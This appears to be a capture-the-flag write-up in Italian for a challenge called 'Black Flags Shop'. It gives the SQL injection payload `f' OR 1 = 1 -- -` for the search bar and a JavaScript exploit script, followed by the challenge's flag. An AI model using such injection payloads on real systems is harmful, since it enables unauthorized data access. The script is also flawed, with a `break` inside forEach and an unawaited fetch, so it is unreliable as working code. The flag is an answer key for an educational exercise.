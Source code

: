 # Black Flags Shop

## Descrizione

Una semplice sql injection, nella barra di ricerca basta scrivere `f' OR 1 = 1 -- -` per ricevere tutti i nomi delle immagini a questo punto bastare fare una richiesta al server per ricevere quell' immagine e il gioco è fatto

```javascript

let flag = "";

fetch( '', {
    method: "POST",
    body: "f' OR 1 = 1 -- -"
})
.then( (response) => {
    return response.json();
})
.then( (data) =>  {
    data.forEach( (element) => {
        if ( element.nome === "Flag" ) {
            flag = element.immagine;
            break;
        }
    });
});

fetch( '/static_source' + flag );


```

## Flag

`flag{S3c0nd0_m3_QQu4__ce_qu41c0s4_d1_57r4n0}`

## Autore
`sDibuon`
